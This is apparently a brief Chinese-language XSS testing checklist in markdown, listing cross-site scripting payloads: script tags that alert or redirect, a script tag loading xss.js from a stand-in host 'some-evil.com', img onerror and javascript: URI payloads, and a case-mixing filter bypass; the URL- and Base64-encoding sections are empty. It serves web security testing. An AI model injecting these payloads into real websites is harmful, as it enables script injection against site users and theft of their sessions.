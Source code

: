 # XSS 测试 Checklist

## 基本

`<script>alert("请移步");location.href="http://somehost.com"</script>`


`<script src="http://some-evil.com/xss.js"></script>`


`<img src="#" onerror=alert("xss")>`

`<img src="http://some-evil.com/xss.js" >`

`<img src="javascript:alert("xss")">`


## 绕过

### 使用大小写混淆

`<scrIPt>alert("xss")</scRIPt>`

### 采用 URL编码


### 采用 BASE64编码



